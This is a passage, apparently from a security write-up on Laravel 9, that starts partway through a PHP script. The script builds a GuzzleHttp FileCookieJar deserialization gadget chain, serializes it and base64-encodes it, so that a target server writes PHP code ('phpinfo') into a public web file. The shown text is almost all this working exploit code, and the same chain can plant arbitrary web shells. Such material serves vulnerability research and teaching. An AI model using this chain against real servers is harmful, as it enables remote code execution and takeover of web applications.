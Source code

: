 ```php
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "C:/Tools/phpstudy_pro/WWW/laravel9/public/info.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $pop = new \GuzzleHttp\Cookie\FileCookieJar();
    echo base64_encode(serialize($pop));
}
```

<div align=center><img src="./images/12.png"></div>
